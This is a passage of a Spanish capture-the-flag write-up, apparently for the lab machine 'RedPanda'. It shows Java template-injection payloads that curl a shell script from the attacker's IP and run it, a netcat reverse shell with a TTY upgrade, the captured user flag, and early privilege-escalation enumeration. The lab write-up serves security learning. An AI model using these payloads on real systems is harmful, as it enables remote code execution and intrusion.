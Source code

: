 Lo subo al servidor

```null
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl 10.10.16.10 -o /tmp/shell")}
```

Y ejecuto

```null
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("bash /tmp/shell")}
```

Gano acceso en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.11.170] 47532
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
woodenk@redpanda:/tmp/hsperfdata_woodenk$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
woodenk@redpanda:/tmp/hsperfdata_woodenk$ export TERM=xterm
woodenk@redpanda:/tmp/hsperfdata_woodenk$ export SHELL=bash
woodenk@redpanda:/tmp/hsperfdata_woodenk$ stty rows 55 columns 209
```

Puedo ver la primera flag

```null
woodenk@redpanda:~$ cat user.txt 
3897d0b9d558c17ad2a1bac368315716
```

# Escalada

Pertenezco al grupo ```logs```

```null
woodenk@redpanda:/$ id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```

Busco por archivos pertenecientes a este

```null
woodenk@redpanda:/$ find \-group logs 2>/dev/null | grep -vE "/home/woodenk/|proc|tmp"
./opt/panda_search/redpanda.log
./credits
./credits/damian_creds.xml
./credits/woodenk_creds.xml
```

Pero no tienen nada relevante, así que paso a otra cosa. Subo el ```pspy``` para detectar tareas que se ejecutan a intervalos regulares de tiempo

